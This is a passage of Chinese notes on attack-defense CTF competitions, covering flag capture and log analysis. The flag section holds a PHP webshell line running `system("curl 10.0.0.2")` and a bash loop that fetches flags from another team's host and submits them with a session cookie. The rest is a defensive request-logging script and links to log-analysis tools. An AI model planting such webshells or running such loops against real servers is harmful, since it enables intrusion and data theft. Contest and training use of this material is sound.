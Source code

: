 ## flag获取
上面的`$shell`内容看个人，线下赛可以直接使用`<?php echo system("curl 10.0.0.2"); ?>`之类的，只是说一个点，剩余的发挥空间由你们思考。

最好能写一个[批量上传](http://www.freebuf.com/sectool/91082.html)的，结合批量访问。批量访问参考[PHP-定时任务](http://rcoil.me/2017/05/PHP-%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1/)

或者

`#!/bin/bash`  
`while true`  
`do`  
`	flag=$(curl 'http://172.16.4.42:800')`  
`	curl --cookie "PHPSESSID=21il7pum6i3781pumljhv578c1; xdgame_username=%E5%B0%8F%E7%BA%A2%E5%B8%BD" --data "key="${flag} "http://172.16.4.42/index.php/wargame/submit"`  
`	sleep 1s`  
`done`

只有想不到，没有做不到。

## 日志分析
日志分析的用途

    1. 感知可能正在发生的攻击，从而规避存在的安全风险
    
    2. 应急响应，还原攻击者的攻击路径，从而挽回已经造成的损失
    
## 记录log脚本
这种脚本网上有很多。

`<?php`  
`date_default_timezone_set('Asia/Shanghai');`  
`$ip       = $_SERVER["REMOTE_ADDR"]; //记录访问者的ip`  
`$filename = $_SERVER['PHP_SELF'];	//访问者要访问的文件名`  
`$parameter   = $_SERVER["QUERY_STRING"]; //访问者要请求的参数`  
`$time     =   date('Y-m-d H:i:s',time()); //访问时间`  
`$logadd = '来访时间：'.$time.'-->'.'访问链接：'.'http://'.$ip.$filename.'?'.$parameter."\r\n";`  
`// log记录`  
`$fh = fopen("log.txt", "a");`  
`fwrite($fh, $logadd);`  
`fclose($fh);`  
`?>`

## 日志分析工具
1. [LogForensics 腾讯实验室](https://security.tencent.com/index.php/opensource/detail/15)

2. [北风飘然@金乌网络安全实验室](http://www.freebuf.com/sectool/126698.html)

3. [网络ID为piaox的安全从业人员](http://www.freebuf.com/sectool/110644.html)

4. [网络ID：SecSky](http://www.freebuf.com/sectool/8982.html)

5. [网络ID：鬼魅羊羔](http://www.freebuf.com/articles/web/96675.html)
